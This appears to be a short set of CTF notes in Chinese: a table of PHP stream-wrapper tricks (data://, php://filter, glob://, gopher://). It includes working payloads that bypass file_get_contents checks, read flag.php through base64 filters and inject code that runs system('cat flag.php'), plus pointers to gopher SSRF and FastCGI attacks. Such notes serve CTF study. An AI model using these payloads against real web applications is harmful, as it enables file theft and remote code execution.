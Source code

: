 | Protocol      | desc                               | payload                                                                       |
| ------------- | ---------------------------------- | ----------------------------------------------------------------------------- |
| data://       | bypass file_get_contents($text...) | ?text=data://test/plain,welcome&file=php://filter/resource=useless.php        |
|               |                                    | ?text=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==                   |
| glob://       | 搜索目录                           |                                                                               |
| php://filter/ | 读文件                             | php://filter/convert.base64-encode/resource=flag.php                          |
|               |                                    | `?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php` |
|               |                                    | `?c=include$_GET[1]?>&1=data://text/plains,<?php system("cat flag.php");?>")` |
| gopher://     | ssrf 攻击常用                      |

# gopher 攻击

CTFHUB FastCGI 协议
